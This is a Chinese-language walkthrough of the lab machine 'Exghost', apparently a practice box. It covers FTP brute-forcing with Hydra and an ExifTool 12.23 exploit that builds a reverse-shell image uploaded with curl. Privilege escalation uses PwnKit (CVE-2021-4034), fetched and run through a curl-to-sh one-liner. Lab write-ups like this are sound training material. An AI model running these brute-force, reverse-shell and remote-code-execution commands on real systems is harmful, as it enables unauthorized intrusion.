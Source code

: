 ```yaml
---
description: Easy - Linux：ExifTool 12.23
---
```


# ✔️ Exghost

## 建立立足点

### 信息枚举

使用Nmap对目标进行开放端口扫描，获得2个开放端口：

<figure><img src="../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

首先对80端口的Web网页进行检查，无收获：

<figure><img src="../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后尝试以Anonymous身份登录FTP服务，也没有收获。因此，尝试使用暴力破解，获得登录凭证：<mark style="color:red;">**user:system**</mark>

```bash
// 用Hydra对目标FTP进行暴力破解尝试
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.183 -V
```

<figure><img src="../.gitbook/assets/3 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

登录FTP后获取到一个backup文件，将它下载到kali本地后，发现它是一个PCAP文件，用Wireshark打开并查看其HTTP流相关数据包：

{% hint style="info" %}
本例中关于目标FTP服务开启了被动模式，因此登录后并不能下载目标文件，需要关闭这个被动模式，才能成功下载。

<img src="../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

```bash
// 登录FTP后，直接输入：
passive
```
{% endhint %}

<figure><img src="../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
// FTP服务中：
get backup
// Kali本机中，检查该文件的属性：
file backup
```

### 漏洞查找

使用Wireshark打开backup文件后，过滤HTTP数据包，发现了：

* <mark style="color:red;">**/exiftest.php**</mark>：一个上传图片的路径
* 已成功上传了一个testme.jpg的图片
* 使用的是<mark style="color:red;">**ExifTool**</mark>，其版本号为：<mark style="color:red;">**12.23**</mark>

<figure><img src="../.gitbook/assets/7 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

尝试查找ExifTool 12.23的公开已知漏洞，发现确实有一个任意代码执行的漏洞，将其下载后发现是一个用于将反弹shell的payload写入一个jpg文件的脚本：

```bash
searchsploit exiftool 12.23
```

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```
// 将利用脚本下载到Kali本地：
searchsploit -m 50911.py .
// 查看其使用方法：
python3 50911.py -h
// 制作payload，得到名为image.jpg的图片文件:
python3 50911.py -s 192.168.45.200 4444
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

首先在Kali本机监听与payload对应的端口：4444

```bash
// Kali本机：
nc -lvnp 4444
```

然后将制作好的payload（image.jpg）上传到目标，等待反弹回来的shell：

```bash
// 在payload所在的文件夹
curl -v -F myFile=@image.jpg http://192.168.160.183/exiftest.php
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功获得反弹shell，并查找到local.txt文件：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息收集

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

当手动枚举无明确收获时，可使用工具进行枚举，如：

* LinEnum.sh
* LinPEAS.sh

本例使用LinEnum.sh，在Kali本机开启一个简易的服务器，将脚本传到目标上，直接运行该脚本：

```bash
// Kali本机：
python3 -m http.server
// 目标主机：
curl http://192.168.45.220:8000/LinEnum.sh -o linenum.sh
chmod +x linenum.sh
./linenum.sh
```

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

本例中，我是直接尝试搜索目标系统内核版本的相关漏洞，发现有可能可以尝试利用的脚本，所以直接root了。个人感觉LinPEAS.sh相较于LinEnum.sh来说更详细和高效，推荐用LinPEAS.sh来进行本地信息枚举。

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

找到本例中的目标系统易受内核漏洞CVE-2021-4034的攻击，同时找到其GitHub上的可利用脚本<mark style="color:red;">**PwnKit.sh**</mark>&#x20;

{% hint style="info" %}
MEMO.

* [https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)
* [https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------](https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------)
{% endhint %}

### ROOT

开箱即用，一键root：

```bash
sh -c "$(curl -fsSL http://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
